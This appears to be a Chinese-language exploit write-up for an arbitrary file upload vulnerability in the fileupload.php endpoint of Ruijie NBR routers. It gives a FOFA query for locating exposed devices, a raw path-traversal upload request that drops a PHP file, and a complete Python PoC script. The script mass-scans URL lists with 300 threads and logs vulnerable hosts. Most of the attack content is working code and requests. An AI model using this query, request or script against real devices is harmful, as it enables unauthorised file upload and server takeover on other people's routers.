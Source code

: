 ### 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限。

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486257208-06fe7236-99b8-46fd-92ba-5120cf730c5f.png)

### fofa语法

```plain
app="Ruijie-NBR路由器"
```

### 漏洞复现

```plain
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 127.0.0.1
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486322716-395afae7-91cc-4134-ad9f-24f3c814ed67.png)

访问拼接路径

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486369736-c2ce9b63-62dd-4475-98b1-d68b01ba5f72.png)

### poc脚本

~~~markdown
import requests,argparse,sys
from multiprocessing.dummy import Pool
requests.packages.urllib3.disable_warnings() # 解除警告
GREEN = '\033[92m'
RESET = '\033[0m'

def banner():
	banner = """

██╗  ██╗ █████╗  ██████╗██╗  ██╗    ██████╗ ██╗   ██╗    ███╗   ███╗ █████╗ ███████╗██╗  ██╗ █████╗ 
██║  ██║██╔══██╗██╔════╝██║ ██╔╝    ██╔══██╗╚██╗ ██╔╝    ████╗ ████║██╔══██╗╚══███╔╝██║  ██║██╔══██╗
███████║███████║██║     █████╔╝     ██████╔╝ ╚████╔╝     ██╔████╔██║███████║  ███╔╝ ███████║███████║
██╔══██║██╔══██║██║     ██╔═██╗     ██╔══██╗  ╚██╔╝      ██║╚██╔╝██║██╔══██║ ███╔╝  ██╔══██║██╔══██║
██║  ██║██║  ██║╚██████╗██║  ██╗    ██████╔╝   ██║       ██║ ╚═╝ ██║██║  ██║███████╗██║  ██║██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝    ╚═════╝    ╚═╝       ╚═╝     ╚═╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝                      
                                       
                            version:1.1.0
                            author:mazha.top 
	"""
	print(banner)
def poc(target):
	payload_url = "/ddi/server/fileupload.php?uploadDir=../../321&name=123.php"
	url = target + payload_url
	headers={
		"Accept": "text/plain, */*; q=0.01",
		"Content-Disposition": 'form-data; name="file"; filename="111.php"',
		"Content-Type": "image/jpeg"
	}	
	data = "<?php phpinfo();?>"

	try:
		res = requests.get(url=target,verify=False)
		res1 = requests.post(url=url,headers=headers,data=data,verify=False)
		if res.status_code == 200:
			if res1.status_code == 200 and "result" in res1.text:
				print(f"{GREEN}[+]该url存在任意文件上传漏洞：{target}\n{RESET}")
				with open("result.txt","a",encoding="utf-8") as f:
					f.write(target+"\n")
			else:
				print(f"[-]该url不存在任意文件上传漏洞")
		else:
			print(f"该url连接失败")
	except:
		print(f"[*]该url出现错误")

def main():
	banner()
	parser = argparse.ArgumentParser()
	parser.add_argument("-u","--url",dest="url",type=str,help="please write link")
	parser.add_argument("-f","--file",dest="file",type=str,help="please write file\'path")
	args = parser.parse_args()
	if args.url and not args.file:
		poc(args.url)
	elif args.file and not args.url:
		url_list = []
		with open(args.file,"r",encoding="utf-8") as f:
			for i in f.readlines():
				url_list.append(i.strip().replace("\n",""))
		mp = Pool(300)
		mp.map(poc,url_list)
		mp.close()
		mp.join()
	else:
		print(f"\n\tUage:python {sys.argv[0]} -h")


if __name__ == "__main__":
	main()
~~~

### py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```


